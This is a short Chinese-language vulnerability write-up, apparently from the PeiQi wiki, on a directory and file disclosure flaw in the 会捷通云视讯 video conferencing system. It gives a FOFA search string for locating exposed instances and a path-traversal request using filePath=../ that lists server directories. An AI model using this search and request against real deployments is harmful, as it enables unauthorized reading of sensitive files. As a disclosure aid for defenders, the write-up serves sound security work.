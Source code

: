 ```yaml
---
title: 会捷通云视讯 list 目录文件泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 中创视迅
---
```


# 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](/img/20210924013643799555.png)

访问Url

```
/him/api/rest/V1.0/system/log/list?filePath=../
```

![](/img/20210924013645734355.png)

## Goby & POC

![](/img/20210924013646023914.png)